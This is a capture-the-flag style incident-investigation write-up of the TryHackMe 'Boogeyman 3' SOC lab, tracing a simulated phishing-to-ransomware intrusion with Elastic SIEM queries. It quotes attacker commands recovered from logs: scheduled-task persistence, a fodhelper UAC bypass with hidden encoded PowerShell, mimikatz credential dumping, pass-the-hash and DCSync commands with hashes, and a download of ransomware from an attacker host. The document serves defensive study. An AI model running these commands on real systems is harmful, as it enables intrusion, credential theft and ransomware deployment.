# Boogeyman 3: The Chaos Inside

## Environment

- **Platform:** TryHackMe - SOC Level 1 Capstone Challenges
- **SIEM:** Elastic Stack (Kibana / Winlogbeat)
- **Log Sources:** Sysmon (Event IDs 1, 3, 11, 22, 4104), Windows Security Event Log
- **Hosts under investigation:** WKSTN-0051.quicklogistics.org, WKSTN-1327.quicklogistics.org, DC01.quicklogistics.org
- **Time window:** August 29, 2023 @ 23:51 - August 30, 2023 @ 01:54

## Lab Objective

Analyse a full multi-stage intrusion against Quick Logistics LLC, tracing the attack chain from initial phishing delivery through ISO-based payload execution, C2 establishment, UAC bypass, credential dumping, lateral movement across two workstations, and a DCSync attack against the domain controller, ending with ransomware staging.


## Tools and Technologies

- Elastic SIEM (KQL queries)
- Sysmon (process creation, network connections, DNS queries, file creation, script block logging)
- Windows Event Log (PowerShell Script Block Logging - Event ID 4104)


## Alert Context and Initial Findings

The investigation was triggered by a phishing email report from the CEO, Evan Hutchinson. The email, purportedly from Allie Sierra (Chief Finance Officer, `allie.sierra@quicklogistics.org`), carried the subject line "Urgent Financial Matter Requiring Immediate Attention" and requested review of an attached financial document. The sender account was an internal one, meaning it had already been compromised prior to this attack, giving the email an inherent layer of legitimacy that made the social engineering more effective.



The security team's initial triage of Evan's workstation revealed two critical findings before any SIEM query was run. The attachment downloaded to the Downloads folder was `ProjectFinancialSummary_Q3.pdf`, typed as a Disc Image File (ISO) at 2,208 KB. This is the delivery container. When mounted, the ISO exposed a single file with the same name but typed as an HTML Application rather than a PDF. This double-extension and icon spoofing technique is designed to make the victim believe they are opening a document.





The ISO delivery method is significant from a detection standpoint. Files extracted from a mounted ISO do not inherit the Mark of the Web (MOTW) zone identifier that Windows applies to files downloaded from the internet. Without MOTW, SmartScreen does not trigger, and the user receives no warning when executing the file. This is a well-established defense evasion technique that became widespread after Microsoft disabled Office macros by default.

The time window for the incident was established as August 29 to August 30, 2023. The Elastic time filter was set accordingly before any queries were issued.


## Lab Content

### Phase 1: Initial Payload Execution (Stage 1)

The first query anchored on `mshta.exe`, the native Windows binary responsible for executing HTML Applications. A single event returned, placing the initial execution at `Aug 29, 2023 @ 23:51:15` on `WKSTN-0051.quicklogistics.org` with PID 6392. The parent process was `Explorer.exe`, confirming that Evan manually double-clicked the file. The command line showed the HTA executing directly from `D:\`, the mounted ISO drive.

```kql
process.name: "mshta.exe"
```



This single log established the anchor for the entire investigation: the host, the timestamp, and the entry point process. Everything that followed was threaded from PID 6392 forward.

Querying for children of PID 6392 on the same host revealed three processes spawned in rapid succession within milliseconds of each other.

```kql
process.parent.pid: 6392 AND host.name: "WKSTN-0051.quicklogistics.org"
```



The sequence tells a deliberate story. `xcopy.exe` copied `review.dat` from `D:\` to `C:\Users\EVAN~1.HUT\AppData\Local\Temp\`, staging the payload in a writable location that survives after the ISO is unmounted. `xcopy.exe` is a native Windows binary with no reason to appear as a child of an HTA process under normal circumstances, making this a high-fidelity LoLBin abuse signal. The ISO is purely the delivery vehicle. Once the payload lands in Temp, the ISO becomes disposable.

`rundll32.exe` then executed `review.dat` directly from `D:\` using `DllRegisterServer` as the entry point. The `.dat` extension is deliberate: many security controls operate on file extension, and disguising a DLL as a data file bypasses those controls. `rundll32.exe` does not care about the extension and will locate the exported function from the PE headers regardless.

The third child, `powershell.exe`, established persistence by registering a scheduled task named `Review`. The task was configured to execute `rundll32.exe` against the Temp copy of `review.dat` daily at 06:00, using `DllRegisterServer` as the entry point. The task name `Review` is deliberately innocuous. The Temp path was chosen because the scheduled task needed a stable location independent of the ISO, which would not remain mounted. The xcopy step logically precedes the scheduled task registration for exactly this reason.

```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$A = New-ScheduledTaskAction -Execute 'rundll32.exe'
-Argument 'C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat,DllRegisterServer';
$T = New-ScheduledTaskTrigger -Daily -At 06:00;
$S = New-ScheduledTaskSettingsSet;
$P = New-ScheduledTaskPrincipal $env:username;
$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S;
Register-ScheduledTask Review -InputObject $D -Force;
```


### Phase 2: C2 Establishment

Threading from `rundll32.exe` PID 3680 (the initial execution of `review.dat` from D:) revealed a single child: a second `rundll32.exe` instance with PID 4672. This separation between the initial loader and the active implant process is a standard pattern, creating a layer of indirection between the HTA execution chain and the C2 activity.

Filtering Sysmon Event ID 3 (network connection) for PID 4672 on WKSTN-0051 surfaced 937 events, all connecting from `10.10.155.159` (Evan's workstation) to `165.232.170.151` on port 80.

```kql
event.code: 3 AND process.pid: 4672 AND host.name: "WKSTN-0051.quicklogistics.org"
```



The beacon interval of approximately 5 seconds is an important IOC in itself. This regularity is characteristic of an automated implant heartbeat. In a production SOC environment, a network connection regularity detection rule would flag this pattern within minutes of the first beacon. The volume (937 events over roughly 90 minutes) also rules out coincidental behavior.

Querying for children of PID 4672 showed the attacker operating interactively through the implant: `whoami /all`, `net.exe users`, `net.exe localgroup administrators`, and `whoami /groups`. These are textbook post-exploitation enumeration commands, run in sequence to establish the current user's privilege level and group memberships.

```kql
process.parent.pid: 4672 AND host.name: "WKSTN-0051.quicklogistics.org"
```



The enumeration confirmed local administrator membership, which triggered the next phase.


### Phase 3: UAC Bypass and Privilege Escalation

The attacker spawned `fodhelper.exe` from PID 4672. `fodhelper.exe` is a legitimate Windows binary (Features on Demand helper) that carries an auto-elevate manifest flag, meaning it can launch with full elevated privileges without triggering a UAC prompt. The bypass works by writing a malicious command into a registry key that `fodhelper.exe` reads at startup, causing it to execute that command in an elevated context. No UAC dialog appears and the user sees nothing.

The child of `fodhelper.exe` (PID 5180) was a hidden PowerShell process reading from a suspicious registry key:

```kql
process.parent.pid: 5180 AND host.name: "WKSTN-0051.quicklogistics.org"
```

```
powershell.exe -NoP -NonI -W Hidden -c
$x=$((gp HKCU:Software\Microsoft\Windows Update).Update);
powershell -NoP -NonI -W Hidden -enc $x
```

The registry path `HKCU\Software\Microsoft\Windows Update` is deliberately named to blend in with legitimate Windows telemetry keys. The value stored there was a base64-encoded payload that the second PowerShell instance decoded and executed in memory via the `-enc` flag. This is fileless execution: the payload never touches disk in a form that a file scanner could detect. This same pattern appeared in Boogeyman 2.



The elevated PowerShell (PID 6160) ran a large base64-encoded script. PowerShell Script Block Logging (Event ID 4104) captured the decoded content, revealing a full C2 stager: AMSI bypass via reflection to set `amsiInitFailed` to true, ETW disabled to suppress event tracing, a spoofed user-agent (`Mozilla/5.0` Trident/IE), and an outbound connection to `bananapeelparty.net` at port 80 to fetch and decrypt a second-stage payload via RC4, executing it directly in memory with `IEX`.

```kql
event.code: 4104 AND host.name: "WKSTN-0051.quicklogistics.org" AND winlog.process.pid: 6160
```




### Phase 4: Credential Dumping on WKSTN-0051

With the elevated PID 6160 as the primary process, DNS query logs (Sysmon Event ID 22) were examined to understand what external resources the attacker accessed.

```kql
event.code: 22 AND host.name: "WKSTN-0051.quicklogistics.org"
```



Two observations stand out beyond the GitHub queries. `bananapeelparty.net` resolved twice from PID 6160, confirming it as the secondary C2 domain referenced in the decoded stager. More unusually, `lsass.exe` (PID 648) generated DNS queries. LSASS has no legitimate reason to perform DNS lookups. This is a strong indicator that the LSASS process was already being targeted or manipulated at this stage.

Event ID 11 (file creation) around the GitHub DNS timestamp at 23:59:28 showed PID 6160 dropping multiple mimikatz components into `C:\Windows\Temp\m\` in both Win32 and x64 variants at 23:59:43, approximately 15 seconds after the GitHub resolution.

```kql
event.code: 11 AND host.name: "WKSTN-0051.quicklogistics.org"
```



The exact download command was recovered by extending the time range to cover August 30 and filtering process command lines for the mimikatz keyword. This surfaced the full execution chain from PID 6160:

```kql
process.command_line: *mimikatz* AND host.name: "WKSTN-0051.quicklogistics.org"
```



At `00:09:57`, PID 6160 spawned a child PowerShell to download the archive:

```
iwr https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -outfile mimi.zip
```

At `00:11:26`, `mimikatz.exe` was executed with `privilege::debug sekurlsa::logonpasswords exit`, extracting NTLM hashes from LSASS memory. At `00:13:37`, the dumped `itadmin` hash was used immediately in a pass-the-hash attack:

```
sekurlsa::pth /user:itadmin /domain:QUICKLOGISTICS /ntlm:F84769D250EB95EB2D7D8B4A1C5613F2 /run:powershell.exe exit
```

This spawned a new PowerShell session running in the context of `itadmin` without requiring the plaintext password.


### Phase 5: File Share Enumeration and Lateral Credential Discovery

The new `itadmin` session was used to enumerate accessible network shares. Filtering for UNC paths in process command lines revealed two key events from PID 6160:

```kql
host.name: "WKSTN-0051.quicklogistics.org" AND process.command_line: *\\\\*
```



At `00:18:38`, the attacker listed the contents of `\\WKSTN-1327.quicklogistics.org\ITFiles`. At `00:19:52`, they read the contents of `IT_Automation.ps1` from that share using `cat`. IT automation scripts in shared network locations routinely contain hardcoded credentials for service accounts or scheduled task execution, which is precisely what the attacker was hunting for.

The plaintext credentials were used within 31 seconds of reading the file. The command constructed a `PSCredential` object with `QUICKLOGISTICS\allan.smith:Tr!ckyP@ssw0rd987` and used `Invoke-Command` to execute `whoami` remotely on `WKSTN-1327`, verifying that the credentials were valid and the lateral movement path was open.

```kql
process.parent.pid: 6160 AND host.name: "WKSTN-0051.quicklogistics.org" AND event.code: 1
```




### Phase 6: Lateral Movement to WKSTN-1327

Switching the host filter to `WKSTN-1327.quicklogistics.org` and querying Event ID 1 showed the WinRM receiver process spawning at `00:20:59`. `svchost.exe` created `wsmprovhost.exe -Embedding`, which is the standard Windows Remote Management host process that appears whenever a remote PowerShell session is established via `Invoke-Command` or `Enter-PSSession`. `wsmprovhost.exe` (PID 4892) immediately spawned `whoami.exe`, the first command the attacker ran on the second machine.

```kql
host.name: "WKSTN-1327.quicklogistics.org" AND event.code: 1
```



A second `wsmprovhost.exe` instance (PID 6788) shortly after spawned `powershell.exe` with an identical base64-encoded stager payload, establishing the same C2 channel on the second compromised machine. Reconnaissance followed: `hostname` and `whoami /all`, all running under `powershell.exe` PID 6708 as a child of `wsmprovhost.exe`.


### Phase 7: Credential Dumping on WKSTN-1327 and Domain Controller Access

Mimikatz was deployed again on WKSTN-1327, downloaded from the same GitHub URL. The execution chain from PID 6708 followed the same pattern as WKSTN-0051.

```kql
process.command_line: *mimikatz* AND host.name: "WKSTN-1327.quicklogistics.org"
```



At `01:30:51`, `sekurlsa::logonpasswords` was run against WKSTN-1327, yielding the local `administrator` account hash `00f80f2538dcb54e7adc715c0e7091ec`. That hash was immediately leveraged in a pass-the-hash command targeting `quicklogistics.org` domain, giving the attacker domain-level access without ever knowing the administrator's plaintext password.


### Phase 8: DCSync Attack and Ransomware Staging

The attacker moved to `DC01.quicklogistics.org`. Filtering for DCSync activity on the DC revealed two `lsadump::dcsync` commands executed at `01:47:57` and `01:48:04`.

```kql
process.command_line: *dcsync* AND host.name: "DC01.quicklogistics.org"
```



The first targeted `backupda`, a backup domain admin account. The second targeted `administrator`. DCSync replicates the Domain Controller's credential database by impersonating a legitimate replication partner, requiring no code execution on the DC itself beyond the mimikatz command. Dumping `backupda` is a pattern consistent with establishing a durable persistence path that survives an administrator password reset.

Threading from the parent PowerShell PID 4008 on DC01 revealed the complete final phase of the attack.

```kql
process.parent.pid: 4008 AND host.name: "DC01.quicklogistics.org" AND event.code: 1
```



After the DCSync operations, the attacker used `Invoke-Command` with `{hostname}` against WKSTN-1327, WKSTN-0051, and their FQDN variants, confirming connectivity to all compromised hosts from the DC. At `01:53:13`, the ransomware binary was downloaded:

```
iwr http://ff.sillytechninja.io/ransomboogey.exe -outfile ransomboogey.exe
```

At `01:53:33`, `ransomboogey.exe` was executed from `C:\Users\Administrator\`, completing the intrusion from initial phishing to full domain compromise and ransomware deployment in approximately two hours.


## Attack Timeline

```
Aug 29 23:51:15  mshta.exe (PID 6392) executes ProjectFinancialSummary_Q3.pdf.hta from D:\ (ISO)
Aug 29 23:51:16  xcopy.exe copies review.dat from D:\ to C:\Users\EVAN~1.HUT\AppData\Local\Temp\
Aug 29 23:51:16  rundll32.exe executes D:\review.dat via DllRegisterServer
Aug 29 23:51:16  powershell.exe registers scheduled task "Review" (daily 06:00, Temp copy of review.dat)
Aug 29 23:51:17  rundll32.exe PID 4672 spawned; C2 beacon begins to 165.232.170.151:80 (5s interval, 937 events)
Aug 29 23:53:47  C2 interactive: whoami /all, net users, net localgroup administrators, whoami /groups
Aug 29 23:54:49  fodhelper.exe spawned (UAC bypass)
Aug 29 23:54:50  Hidden PowerShell reads base64 payload from HKCU\Software\Microsoft\Windows Update
Aug 29 23:54:50  Elevated PowerShell PID 6160 executes second-stage C2 stager (AMSI bypass, bananapeelparty.net)
Aug 29 23:59:28  DNS: github.com and objects.githubusercontent.com resolved by PID 6160
Aug 29 23:59:43  Mimikatz components extracted to C:\Windows\Temp\m\ (Win32 and x64)
Aug 30 00:09:57  iwr downloads mimikatz_trunk.zip from GitHub to mimi.zip
Aug 30 00:11:26  mimikatz: privilege::debug sekurlsa::logonpasswords (LSASS credential dump on WKSTN-0051)
Aug 30 00:13:37  mimikatz: sekurlsa::pth itadmin NTLM F84769D250EB95EB2D7D8B4A1C5613F2 (pass-the-hash)
Aug 30 00:18:38  itadmin session enumerates \\WKSTN-1327.quicklogistics.org\ITFiles share
Aug 30 00:19:52  cat IT_Automation.ps1 from remote share (credentials discovered in plaintext)
Aug 30 00:20:23  Invoke-Command with QUICKLOGISTICS\allan.smith:Tr!ckyP@ssw0rd987 to WKSTN-1327
Aug 30 00:20:59  wsmprovhost.exe spawned on WKSTN-1327 (WinRM session established)
Aug 30 00:21:53  Second-stage C2 stager deployed on WKSTN-1327
Aug 30 01:29:09  Mimikatz downloaded on WKSTN-1327 from same GitHub URL
Aug 30 01:30:51  mimikatz: sekurlsa::logonpasswords (credential dump on WKSTN-1327)
Aug 30 01:31:39  mimikatz: sekurlsa::pth administrator NTLM 00f80f2538dcb54e7adc715c0e7091ec (domain access)
Aug 30 01:46:18  Mimikatz downloaded on DC01 from same GitHub URL
Aug 30 01:47:57  mimikatz: lsadump::dcsync /user:backupda (DC01)
Aug 30 01:48:04  mimikatz: lsadump::dcsync /user:administrator (DC01)
